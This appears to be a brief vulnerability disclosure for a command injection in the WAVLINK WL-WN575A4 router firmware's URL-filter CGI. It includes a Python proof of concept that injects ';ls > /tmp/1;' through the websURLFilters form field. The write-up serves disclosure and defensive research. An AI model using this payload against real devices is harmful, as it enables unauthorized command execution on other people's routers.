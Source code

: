 # command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in firmwall.cgi/iptablesWebsFilterRun

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](6.png)  
concate and call system, cause command injection  
![](7.png)  
and we can know function get_nth_value pass a2 to a4  
![](8.png)  
v0 get value from websURLFilters  
![](9.png)  
we can set websURLFilters in function websURLFilter via parameter websURLFilters




## POC
```
url = "http://192.168.0.1/cgi-bin/firmwall.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page=websURLFilter&websURLFilters=' + payload})
``` 
